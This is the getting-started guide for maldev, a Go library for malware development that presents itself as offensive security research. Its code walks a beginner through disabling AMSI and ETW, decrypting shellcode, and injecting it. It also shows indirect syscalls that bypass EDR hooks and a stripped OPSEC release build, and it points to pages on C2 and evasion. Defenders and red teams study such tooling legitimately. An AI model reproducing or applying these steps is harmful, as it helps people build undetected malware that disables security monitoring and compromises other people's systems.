

# Getting Started

[← Back to README](../README.md)

Welcome to maldev — a modular Go library for offensive security research. This guide assumes zero malware development experience.

## Prerequisites

- **Go 1.21+** installed
- **Windows** for most techniques (some work cross-platform)
- Basic Go knowledge (functions, packages, error handling)
- For OPSEC builds: `garble` (`go install mvdan.cc/garble@latest`)

## Installation

```bash
go get github.com/oioio-space/maldev@latest
```

## Core Concepts

### What is maldev?

maldev is a **library**, not a framework. You import the packages you need and compose them:



### The Three Levels of Stealth

Every technique has a **detection level**. Choose based on your threat model:

| Level | Meaning | Example |
|-------|---------|---------|
| **Low** | Normal system behavior | Reading drive letters, checking version |
| **Medium** | Suspicious but common | Memory allocation, thread creation |
| **High** | Highly monitored | Cross-process injection, ntdll unhooking |

### The Caller Pattern

The most important concept in maldev. Every function that calls Windows NT syscalls accepts an optional `*wsyscall.Caller`:

```go
// Without Caller — uses standard WinAPI (hookable by EDR)
inject.SomeTechnique(pid, shellcode, nil)

// With Caller — routes through indirect syscalls (bypasses EDR hooks)
caller := wsyscall.New(wsyscall.MethodIndirect,
    wsyscall.Chain(wsyscall.NewHashGate(), wsyscall.NewHellsGate()))
inject.SomeTechnique(pid, shellcode, caller)
```

**Rule of thumb**: Always create a Caller for real operations. Pass `nil` only for testing.

## Your First Program

### Step 1: Evasion (disable defenses)

```go
package main

import (
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
)

func main() {
    // Apply evasion techniques before doing anything suspicious
    techniques := []evasion.Technique{
        amsi.ScanBufferPatch(),  // disable AMSI scanning
        etw.All(),               // disable ETW logging
    }
    evasion.ApplyAll(techniques, nil) // nil = standard WinAPI
}
```

### Step 2: Load shellcode

```go
import "github.com/oioio-space/maldev/crypto"

// Decrypt your payload (encrypted at build time)
key := []byte{/* your 32-byte AES key */}
shellcode, _ := crypto.DecryptAESGCM(key, encryptedPayload)
```

### Step 3: Inject

```go
import "github.com/oioio-space/maldev/inject"

cfg := &inject.Config{
    Method: inject.MethodCreateThread,  // self-injection
}
injector, _ := inject.NewInjector(cfg)
injector.Inject(shellcode)
```

### Step 4: Build for operations

```bash
# Development build (with logging)
make debug

# Release build (OPSEC, no strings, no debug info)
make release
```

## What to Read Next

| Goal | Read |
|------|------|
| Understand the architecture | [Architecture](architecture.md) |
| Learn injection techniques | [Injection Techniques](techniques/injection/README.md) |
| Learn EDR evasion | [Evasion Techniques](techniques/evasion/README.md) |
| Understand syscall bypass | [Syscall Methods](techniques/syscalls/README.md) |
| Set up C2 communication | [C2 & Transport](techniques/c2/README.md) |
| Build for operations | [OPSEC Build Guide](opsec-build.md) |
| See composed examples | [Examples](examples/) |
| Full MITRE coverage | [MITRE ATT&CK + D3FEND Mapping](mitre.md) |

## Terminology Quick Reference

| Term | Meaning |
|------|---------|
| **Shellcode** | Raw machine code bytes that execute independently |
| **Injection** | Running code in another process's address space |
| **EDR** | Endpoint Detection & Response (e.g., CrowdStrike, Defender) |
| **Hook** | EDR modification of function prologues to intercept calls |
| **Syscall** | Direct kernel call, bypassing userland hooks |
| **SSN** | Syscall Service Number — index into kernel's function table |
| **PEB** | Process Environment Block — per-process kernel structure |
| **AMSI** | Antimalware Scan Interface — Microsoft's content scanning API |
| **ETW** | Event Tracing for Windows — kernel telemetry system |
| **Caller** | maldev's abstraction for choosing syscall routing method |
| **OPSEC** | Operational Security — avoiding detection and attribution |
